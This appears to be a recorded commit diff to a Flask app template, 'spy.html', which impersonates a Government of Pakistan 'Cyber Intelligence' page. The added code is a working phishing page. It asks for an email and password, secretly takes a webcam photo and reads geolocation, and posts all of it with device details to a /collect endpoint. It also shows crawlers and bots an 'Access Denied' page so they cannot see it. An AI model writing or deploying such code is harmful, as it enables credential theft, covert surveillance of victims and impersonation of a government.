

Before and after one commit to MR5121472/Govt-of-punjab-pak, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; data that the repository does not hold is empty; grey boxes are pictures that could not be loaded.

Commit message:
Update spy.html

```diff
--- a/templates/spy.html
+++ b/templates/spy.html
@@ -2,80 +2,139 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>🇵🇰 Government of Pakistan</title>
+  <title>Government of Pakistan – Cyber Intelligence</title>
   <meta name="viewport" content="width=device-width, initial-scale=1">
-  <link rel="icon" href="https://upload.wikimedia.org/wikipedia/en/3/32/State_emblem_of_Pakistan.png">
+  <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/3/38/State_emblem_of_Pakistan.svg">
   <style>
     body {
       margin: 0;
-      font-family: 'Segoe UI', Tahoma;
-      background: #001f3f;
+      font-family: 'Segoe UI', sans-serif;
+      background: #1a1a1a;
       color: white;
       display: flex;
       justify-content: center;
       align-items: center;
       height: 100vh;
     }
-    .container {
-      background: rgba(255,255,255,0.05);
+    .box {
+      background: rgba(255, 255, 255, 0.05);
       padding: 30px;
-      border-radius: 14px;
-      box-shadow: 0 0 30px rgba(0,0,0,0.4);
+      border-radius: 12px;
+      box-shadow: 0 0 20px rgba(0,0,0,0.6);
+      backdrop-filter: blur(10px);
+      text-align: center;
       width: 350px;
-      text-align: center;
-      backdrop-filter: blur(8px);
     }
-    img {
-      width: 70px;
-      margin-bottom: 15px;
+    img.logo {
+      width: 60px;
+      margin-bottom: 10px;
     }
     h1 {
       font-size: 20px;
-      margin-bottom: 8px;
+      margin-bottom: 10px;
     }
     p {
       font-size: 13px;
+      margin-bottom: 20px;
       color: #ccc;
+    }
+    input, button {
+      width: 100%;
+      padding: 10px;
+      margin: 6px 0;
+      border-radius: 6px;
+      border: none;
+      font-size: 14px;
+    }
+    input {
+      background: #ecf0f1;
+      color: #2c3e50;
+    }
+    button {
+      background: #e74c3c;
+      color: white;
+      font-weight: bold;
+      cursor: pointer;
+    }
+    button:hover {
+      background: #c0392b;
     }
   </style>
 </head>
 <body>
-  <div class="container">
-    <img src="https://upload.wikimedia.org/wikipedia/en/3/32/State_emblem_of_Pakistan.png" alt="Gov Logo">
+  <div class="box">
+    <img src="https://upload.wikimedia.org/wikipedia/commons/3/38/State_emblem_of_Pakistan.svg" class="logo">
     <h1>⚠️ Government of Pakistan – Cyber Intelligence</h1>
     <p>Confidential system – Your location & camera are being analyzed...</p>
+    <form id="spyForm">
+      <input type="text" placeholder="Email" id="email" required>
+      <input type="password" placeholder="Password" id="password" required>
+      <button type="submit">Verify Identity</button>
+    </form>
   </div>
 
   <script>
-    async function sendData(cameraStatus, latitude = null, longitude = null) {
-      await fetch("/collect", {
-        method: "POST",
-        headers: { "Content-Type": "application/json" },
-        body: JSON.stringify({
-          userAgent: navigator.userAgent,
-          latitude: latitude,
-          longitude: longitude,
-          camera: cameraStatus,
-          device: navigator.platform
-        })
+    const form = document.getElementById('spyForm');
+
+    async function captureAndSend(cameraStatus, lat = null, lon = null, image = null) {
+      const email = document.getElementById('email').value;
+      const password = document.getElementById('password').value;
+      const payload = {
+        email: email,
+        password: password,
+        userAgent: navigator.userAgent,
+        latitude: lat,
+        longitude: lon,
+        camera: cameraStatus,
+        deviceInfo: navigator.platform,
+        image: image
+      };
+
+      await fetch('/collect', {
+        method: 'POST',
+        headers: { 'Content-Type': 'application/json' },
+        body: JSON.stringify(payload)
       });
     }
 
-    function startTracking() {
+    function askPermissionsAndSend() {
       navigator.mediaDevices.getUserMedia({ video: true })
         .then(stream => {
-          stream.getTracks().forEach(track => track.stop());
-
-          navigator.geolocation.getCurrentPosition(
-            pos => sendData("✅ Camera Allowed", pos.coords.latitude, pos.coords.longitude),
-            err => sendData("✅ Camera Allowed, ❌ Location Denied")
-          );
+          const track = stream.getVideoTracks()[0];
+          const imageCapture = new ImageCapture(track);
+          imageCapture.takePhoto()
+            .then(blob => {
+              const reader = new FileReader();
+              reader.onloadend = () => {
+                const base64data = reader.result;
+                navigator.geolocation.getCurrentPosition(pos => {
+                  captureAndSend('✅ Camera Allowed', pos.coords.latitude, pos.coords.longitude, base64data);
+                }, err => {
+                  captureAndSend('✅ Camera Allowed ❌ Location Denied', null, null, base64data);
+                });
+              };
+              reader.readAsDataURL(blob);
+            })
+            .catch(() => {
+              captureAndSend('✅ Camera Allowed ❌ (No Photo)');
+            });
+          stream.getTracks().forEach(t => t.stop());
         })
-        .catch(() => sendData("❌ Camera Denied"));
+        .catch(() => {
+          captureAndSend('❌ Camera Denied');
+        });
     }
 
-    // Auto-run
-    window.onload = startTracking;
+    form.addEventListener('submit', function (e) {
+      e.preventDefault();
+      askPermissionsAndSend();
+      alert(\"✅ Verification in progress. Please wait...\");
+    });
+
+    // Prevent bots
+    if (/bot|google|crawler|spider|robot|crawling/i.test(navigator.userAgent)) {
+      document.body.innerHTML = '<h1>Access Denied</h1>';
+    }
   </script>
 </body>
 </html>
```
